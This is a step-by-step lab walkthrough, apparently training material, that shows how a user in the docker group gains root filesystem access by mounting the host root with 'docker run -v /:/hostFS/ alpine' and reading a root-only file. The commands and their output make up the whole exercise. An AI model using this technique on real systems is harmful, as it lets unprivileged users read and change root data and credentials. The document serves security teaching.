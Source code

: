 ## Authentication Attacks against Host

###### A `non-root user` with access to docker can `gain access to root filesystem of the host machine` by using a feature of docker called `Volume Expose`. 

###### In this attack, a `non-root` user can launch a container by using the `-v /:/hostFS` flag to mount the entire host file-system to the container launched. Changes made to the mounted file-system in the container reflects on the host file-system as well.


##### Step 1:

* Open Terminal

![](img/Open-Terminal.png)


##### Step 2:

* Run `whoami` to confirm that you are the `root` user.
    
```commandline
root@we45:~# whoami
root
root@we45:~#
```

* Run `sudo su` to become root user, if you are NOT the `root` user already

```commandline
we45@we45:~# sudo su
root@we45:~#
```


##### Step 3:

* Create a `secret.txt` file in the `/root/` directory, write some secret in it and save the file.

```commandline
root@we45:~# touch /root/secret.txt
root@we45:~# 
root@we45:~# mousepad /root/secret.txt
```


###### A `non-user` by default does not have access to docker.


##### Step 4:

* Give `we45` user access to `docker`.

```commandline
root@we45:~# usermod -aG docker we45
root@we45:~#
```

* `Note`: Close and re-open the terminal for changes to take effect. It might be necessary to logout and log back in.


##### Step 5: 
  
* Run `sudo su we45` to login as a normal user.

```commandline
root@we45:~# sudo su we45
we45@we45:~$
```
    
* Check if the user `we45` has access to `docker` by running `docker images` and `docker ps`

```commandline
we45@we45:~$ docker images
we45@we45:~$ docker ps
```


##### Step 6: 
  
* Run `cat /root/secret.txt` read the content of `secret.txt` file that was created by `root` user.

```commandline
we45@we45:~$ cat /root/secret.txt
cat: /root/secret.txt: Permission denied
```

* Since the user does not have `root` privileges, permission to read/write the file will be denied


##### Step 7:

* Run `docker run -ti --rm -v /:/hostFS/ alpine` as `we45`(non-root user)

```commandline
we45@we45:~$ docker run -ti -v /:/hostFS/ alpine
/ #     
```
    
* By running this, a `non-root user` has mounted the host Filesystem to the docker container which the user has access to.


##### Step 8:

* Run `cd /hostFS/root/` to access the mounted host directory. Run `ls` to check the secret.txt file inside a container.

```commandline
/ # cd /hostFS/root/
/hostFS/root # 
/hostFS/root # ls
secret.txt
```


##### Step 9:

* Run `cat secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
secret
``` 

###### Now, the `non-root user` has the privilege to view the root user data. Changes made to the file in the container will be reflected on the Host Filesystem as well.


##### Step 10:

* Run `exit` to exit from the container.

```commandline
/hostFS/root # exit
we45@we45:~$
```


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```
